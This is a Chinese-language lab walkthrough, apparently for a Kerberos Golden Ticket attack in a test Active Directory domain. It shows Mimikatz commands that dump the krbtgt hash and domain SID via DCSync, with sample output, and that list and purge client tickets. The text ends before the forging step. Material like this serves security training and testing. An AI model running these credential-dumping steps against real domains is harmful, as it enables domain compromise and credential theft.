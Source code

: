 - **域控**：Windows Server 2016（域：`abcc.org`，主机名：`ICBC`）
- **客户端**：Windows 7（域内机器）
- **工具**：Mimikatz

### 测试过程

#### 1. 尝试访问域控共享目录（未授权）

**命令**：
```cmd
dir \\ICBC.abcc.org\c$
```

![访问DC目录](https://s1.ax1x.com/2020/04/16/JFzcM6.png)

**结果**：
- 提示访问拒绝，表明当前用户无权限。

#### 2. 导出krbtgt用户的哈希和SID

在域控或具有DCSync权限的机器上使用Mimikatz提取`krbtgt`凭据。

**命令**：
```cmd
mimikatz.exe "lsadump::dcsync /domain:abcc.org /user:krbtgt" exit
```

![凭据](https://s1.ax1x.com/2020/04/16/JFzXdg.png)

**输出示例**：
```
Object RDN           : krbtgt
** SAM ACCOUNT **
SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE | NORMAL_ACCOUNT )
SID                  : S-1-5-21-1234567890-123456789-123456789-502
Credentials:
  Hash NTLM: aabbccddeeff11223344556677889900
  Hash AES256: 11223344556677889900aabbccddeeff11223344556677889900aabbccdd
```

**说明**：
- 记录`NTLM`哈希（`aabbccddeeff11223344556677889900`）和域SID（`S-1-5-21-1234567890-123456789-123456789`）。
- 可通过其他方法（如凭据转储）获取`krbtgt`哈希。

#### 3. 清除客户端Kerberos票据

在域内客户端上使用Mimikatz查看并清除当前票据。

**查看票据**：
```cmd
mimikatz.exe "kerberos::list" exit
```

**清除票据**：
```cmd
mimikatz.exe "kerberos::purge" exit
```
